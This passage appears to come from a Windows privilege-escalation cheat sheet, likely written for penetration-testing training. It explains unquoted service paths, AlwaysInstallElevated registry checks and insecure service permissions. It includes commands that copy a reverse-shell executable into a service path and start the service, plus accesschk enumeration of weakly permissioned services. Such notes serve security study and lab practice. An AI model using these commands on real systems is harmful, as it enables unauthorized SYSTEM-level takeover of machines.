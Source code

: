 In this case Windows will try every possible executable in this path:

C:\Program.exe
C:\Program Files.exe
C:\Program Files\Unquoted.exe 

Copying the file and starting the service

```powershell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
```

### Always Install Elevated

If they return output then vulnerability exists:

`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
`reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

### Insecure Service Permissions

Services are simply programs that run in the background, accepting input or performing regular tasks. If services run with SYSTEM privileges and are misconfigured, exploiting them may lead to command execution with SYSTEM privileges as well.

1. Insecure Service Properties
2. Unquoted Service Path
3. Weak Registry Permissions
4. Insecure Service Executables
5. DLL Hijacking

> If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.

> “Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!”

Detect is to find a service with weak permissions

`accesschk.exe -uwcqv *`

For Shorten output

`accesschk.exe -uwcqv "Authenticated Users" *`

`accesschk.exe -uwcqv "Everyone" *`

The output will be the service name, the group name and the permissions that group has. Anything like SERVICE_CHANGE_CONFIG or SERVICE_ALL_ACCESS is a win. In fact any of the following permissions are worth looking out for:

`SERVICE_CHANGE_CONFIG`

`SERVICE_ALL_ACCESS`

`GENERIC_WRITE`

`GENERIC_ALL`
